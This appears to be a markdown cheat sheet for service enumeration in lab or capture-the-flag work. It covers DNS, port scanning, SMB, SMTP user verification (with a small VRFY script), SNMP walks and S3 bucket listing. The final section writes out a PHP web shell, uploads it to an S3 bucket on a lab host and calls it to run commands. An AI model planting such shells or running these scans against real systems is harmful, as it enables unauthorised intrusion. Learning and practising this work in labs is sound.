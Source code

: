 ```yaml
---
title: Enumeration Cheat Sheet
category: Recon
tags: [service, enum, cheatsheet]
notes: "Enumeration cheat sheet for common services"
---
```


# Enumeration Cheat Sheet

## DNS Enumeration

### Custom Host Enumeration
```bash
for ip in $(cat list.txt); do host $ip.-host-.com; done
```

### PTR Record Scan
```bash
for ip in $(seq 200 254); do host -host-.$ip; done | grep -v "not found"
```

### Automated Recon
```bash
dnsrecon -d -host- -t std
dnsrecon -d -host- -D ~/list.txt -t brt
dnsenum
```

### Subdomain Enumeration
```bash
gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb --append-domain
```

### Windows
```bash
nslookup
```

---

## TCP/UDP Enumeration

### Netcat Scanning

**TCP**
```bash
nc -nvv -w 1 -z <host> <port-port>
```

**UDP**
```bash
nc -nv -u -z -w 1 <host> <port-port>
```

### Nmap Sweep Scans

**Ping Sweep**
```bash
nmap -sn <host>
nmap -v -sn <host> -oG ping-sweep.txt
grep Up ping-sweep.txt | cut -d " " -f 2
```

**Port Scan**
```bash
nmap -p <port> <host> -oG web-sweep.txt
grep open web-sweep.txt | cut -d" " -f2
```

**OS Fingerprinting**
```bash
sudo nmap -O <host> --osscan-guess
nmap -sT -A <host> --aggressive
```

### Windows
```powershell
Test-NetConnection -Port 445 <host>
```

---

## SMB Enumeration

```bash
sudo nbtscan -r <network>/24
nmap -v -p 139,445 --script smb-os-discovery <host>
```

**Windows**
```powershell
net view \\dc01 /all
```

---

## SMTP Enumeration

**Manual User Verification**
```bash
nc -nv <host> 25
```

**Automated User Verification**
```bash
python3 smtp_verify.py <user> <host>
```

```python
#!/usr/bin/python
# smtp_verify.py
import socket, sys

if len(sys.argv) != 3:
    print("Usage: vrfy.py <username> <target_ip>")
    sys.exit(0)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
ip = sys.argv[2]
s.connect((ip, 25))
print(s.recv(1024))

user = (sys.argv[1]).encode()
s.send(b'VRFY ' + user + b'\r\n')
print(s.recv(1024))
```

**Windows**
```powershell
Test-NetConnection -Port 25 <host>
dism /online /Enable-Feature /FeatureName:TelnetClient
telnet <host> 25
```

---

## SNMP Enumeration

```bash
sudo nmap -sU --open -p 161 192.168.50.1-254 -oG open-snmp.txt

# Community strings
echo public > community
echo private >> community
echo manager >> community

# Host IPs
for ip in $(seq 1 254); do echo <host>.$ip; done > ips

# Scan with onesixtyone
onesixtyone -c community -i ips
```

**snmpwalk Queries**
```bash
snmpwalk -c public -v1 -t 10 <host>
snmpwalk -c public -v1 <host> 1.3.6.1.4.1.77.1.2.25      # Users
snmpwalk -c public -v1 <host> 1.3.6.1.2.1.25.4.2.1.2     # Processes
snmpwalk -c public -v1 <host> 1.3.6.1.2.1.25.6.3.1.2     # Installed Software
snmpwalk -c public -v1 <host> 1.3.6.1.2.1.6.13.1.3       # Listening TCP Ports
```

---

## AWS S3 Bucket Enumeration

```bash
# Check Auth
aws --endpoint=http://<host> s3 ls

# List Buckets
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb

# Upload Shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

Access:
```
http://<host>/shell.php?cmd=id
```